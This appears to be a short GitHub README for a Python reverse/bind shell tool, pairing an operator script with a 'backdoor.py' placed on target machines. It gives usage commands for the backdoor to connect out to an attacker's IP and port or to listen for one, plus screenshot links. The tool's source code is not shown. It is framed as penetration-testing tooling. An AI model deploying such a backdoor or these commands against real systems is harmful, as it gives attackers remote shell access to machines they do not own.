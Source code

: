 Python Reverse-Bind Shell
Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
         >> Interactive shell to check >> use command 'shell_check'
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://image.ibb.co/nmjBxe/Screen_Shot_08_23_18_at_10_37_PM.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)
         >> Interactive shell to check >> use command 'shell_check'

<img src="https://image.ibb.co/bCFvOK/Screen_Shot_08_23_18_at_10_38_PM.png">      
<img src="https://preview.ibb.co/b3ffYK/Screen_Shot_08_20_18_at_04_52_PM_001.png">

